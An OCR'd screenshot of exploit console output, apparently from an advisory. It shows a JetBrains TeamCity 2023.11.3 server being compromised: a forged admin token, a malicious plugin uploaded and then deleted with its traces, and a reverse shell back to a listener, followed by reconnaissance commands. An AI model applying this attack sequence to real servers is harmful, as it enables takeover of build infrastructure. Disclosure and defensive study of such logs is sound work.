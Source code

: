 ```
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ME9Xa2xIMDhSYmtxTVBMaThGWDdObVJaakZ3.MDdhNDM0NzktYWM3ZC00NzAzLTk4ZmUtNjVlMzQ3MGMwOGIz
[*] Uploading plugin: 4V9kOD1D
[*] Deleting the plugin...
[*] Deleting the authentication token...
[+] Deleted /opt/TeamCity/work/Catalina/localhost/ROOT/TC_147512_4V9kOD1D
[+] Deleted /home/teamcity/.BuildServer/system/caches/plugins.unpacked/4V9kOD1D
[*] Command shell session 5 opened (192.168.86.42:4444 -> 192.168.86.43:44878) at 2024-02-23 14:27:04 +0000

id
uid=1002(teamcity) gid=1002(teamcity) groups=1002(teamcity)
uname -a
Linux teamcity-ubuntu-test 6.5.0-15-generic #15~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Fri Jan 12 18:54:30 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
pwd
/opt/TeamCity/bin
```
